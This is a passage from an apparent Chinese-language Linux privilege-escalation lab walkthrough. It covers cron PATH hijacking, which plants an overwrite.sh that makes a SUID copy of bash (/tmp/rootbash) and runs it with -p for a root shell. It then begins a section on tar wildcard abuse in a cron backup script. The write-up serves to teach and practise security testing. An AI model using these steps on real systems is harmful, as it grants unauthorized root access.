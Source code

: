 在/home/user/目录下，创建一个名为 overwrite.sh的文件，其内容如下：

```shell
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

最后再确保刚刚创建的overwrite.sh文件有可执行权限：

```shell
chmod +x /home/user/overwrite.sh
```

![image-20221010220715408](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010220715408.png)

等待 cron 作业运行(不应超过一分钟)，然后使用-p 运行/tmp/rootbash 命令，以获得具有 root 权限的 shell:

```shell
/tmp/rootbash -p
```

此处的原理：

由于本例中crontab的PATH 变量是从/home/user路径开始（运行cron jobs时，第一个找的就是该路径），所以我们在/home/user目录下 伪造一个overwrite.sh文件，它和系统中的cron作业------overwrite.sh名字相同；

系统在运行cron jobs时，会根据PATH变量先找到伪造的overwrite.sh文件并去执行它，然后伪造的overwrite.sh会生成一个带s权限的文件rootbash，而rootbash实际上是bash文件的一个副本：运行效果是以root身份执行bash文件，会打开一个root shell（shell的类型为bash，权限为root）。

![image-20221010220922293](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010220922293.png)

验证完之后，删除文件并退出root shell：

```shell
rm /tmp/rootbash
exit
```

**答题卡**

![image-20221010221107786](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010221107786.png)

## Cron Jobs提权-tar命令结合通配符

衔接上一小节，我们查看另外一个cron job文件的内容：

```
cat /usr/local/bin/compress.sh
```

![image-20221010221532196](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010221532196.png)

从上图我们能看到：tar 命令是在 home 目录中使用通配符(\*)运行的，将/home/user下所有文件和目录打包并压缩成/tmp/backup.tar.gz 。

tar常见命令参数：

```shell
#语法：tar [-zjxcvfP] filename 
c   //创建新的归档文件
x   //对归档文件解包
t   //列出归档文件里的文件列表
v   //输出命令的归档或解包的过程
f   //指定包文件名，多参数f写最后
C   //指定解压目录位置
z   //使用gzip压缩归档后的文件(.tar.gz)
j   //使用bzip2压缩归档后的文件(.tar.bz2)
J   //使用xz压缩归档后的文件(tar.xz)
X   //排除多个文件(写入需要排除的文件名称)
h   //打包软链接
P   //连带绝对路径打包
```